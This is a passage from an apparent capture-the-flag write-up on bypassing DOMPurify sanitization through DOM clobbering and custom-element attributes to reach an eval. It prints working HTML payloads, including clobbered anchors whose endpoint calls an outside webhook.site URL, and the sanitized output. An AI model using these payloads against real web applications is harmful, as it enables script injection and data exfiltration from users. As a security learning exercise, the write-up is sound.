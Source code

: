 Let’s try to create a note using what we have so far, to see if the `eval` gets called.
My note contains the two clobbers and a custom `div`:

```html
<a id="custom_elements"></a><a id="custom_elements" name="enabled" href="true"></a>
<a id="custom_elements"></a><a id="custom_elements" name="endpoint" href="https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977"></a>
<div is="my-custom-div" my-attribute="helo"></div>
```

Thanks to the webhook receiving a request, I know that the clobber was successful.
Unfortunately, the `eval` didn’t get called.

Here’s how my payload was rendered on the note page after sanitization:

```html
<a id="custom_elements"></a><a href="true" name="enabled" id="custom_elements"></a>
<a id="custom_elements"></a><a href="https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977" name="endpoint" id="custom_elements"></a>
<div is=invalid-value></div>
```

Two things happened:

* The `is` attribute was cleared by DOMPurify, but because of the sanitization function, it has then be set to `invalid-value`.
To fix this, I updated the `div` name in the JSON to match.

* My custom attribute `my-attribute` was removed by DOMPurify.

Contrarly to `my-attribute`, the `is` attribute is still present after sanitization and was only cleared.
I initially thought that was because `my-attribute` was not a valid attribute, while `is` was.
So I searched for an existing attribute that contains a dash and found `data-*`.

I updated the JSON and note accordingly:

```json
[
  {
    "name": "invalid-value",
    "observedAttribute": "data-helo"
  }
]
````

```html
<a id="custom_elements"></a><a id="custom_elements" name="enabled" href="true"></a>
<a id="custom_elements"></a><a id="custom_elements" name="endpoint" href="https://webhook.site/a4657150-2529-49e3-b51c-1091d4ec3977"></a>
<div is="invalid-value" data-helo="helo"></div>
````

This time, the custom attribute passed sanitization, and I reached the `eval`:

```
Old value: null New Value: helo
```
